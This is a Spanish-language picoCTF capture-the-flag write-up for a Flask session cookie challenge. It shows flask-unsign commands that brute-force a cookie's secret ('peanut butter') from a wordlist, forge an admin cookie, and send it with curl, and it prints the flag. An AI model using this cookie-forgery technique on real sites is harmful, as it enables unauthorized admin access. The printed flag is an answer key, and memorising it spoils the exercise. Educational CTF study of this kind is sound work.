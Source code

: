 # Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/1e4bd835ad3e7fe776d49e7b8cc280c1/server.py) [http://mercury.picoctf.net:35697/](http://mercury.picoctf.net:35697/)
Hints:
1. How secure is a flask cookie?
# Solución
- Descargamos el código que nos da
- Usaremos flask Unsign que nos permite hacer un ataque de fuerza bruta a la cookie con la que se cifró
- Crearemos un ambiente virtual, para esto primero analizaremos que tenemos lo necesario
```
sudo apt install python3-venv
```
- Instalamos en el ambiente virtual la herramienta flask-unsign
```
amv@LAPTOP-1MU6MBUF:~$ python3 -m venv ~/.venv
amv@LAPTOP-1MU6MBUF:~$ source ~/.venv/bin/activate
(.venv) amv@LAPTOP-1MU6MBUF:~$ python3 -m pip install flask-unsign
```
- Tomamos el valor de la cookie
- Le hacemos un ataque de fuerza bruta con el siguiente comando:
```
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_Mu6Q.KcadUhiC78Ma7mlByGWo19HIbQ4" --wordlist cookies.txt
```
- En nuestro caso la cookie firmada fue "peanut butter"
- Ahora usamos sign con nuestra palabra secreta
```
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"
```
- Ahora la lanzamos contra el sitio para ver si funciona utilizando curl -s para que sea silencioso, también aprovechamos para hacer un grep
```
 curl -s http://mercury.picoctf.net:35697/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_M0NQ.zdawRnSyGCRZwhO8MK0n9NYzAqc" | grep pico
```
- Obtenemos la bandera
```
(.venv) amv@LAPTOP-1MU6MBUF:~$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_M0NQ.zdawRnSyGCRZwhO8MK0n9NYzAqc
(.venv) amv@LAPTOP-1MU6MBUF:~$ curl -s http://mercury.picoctf.net:35697/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_M0NQ.zdawRnSyGCRZwhO8MK0n9NYzAqc" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_22fe0842}</code></p>
```

```
picoCTF{pwn_4ll_th3_cook1E5_22fe0842}
```
# Notas adicionales
# Referencias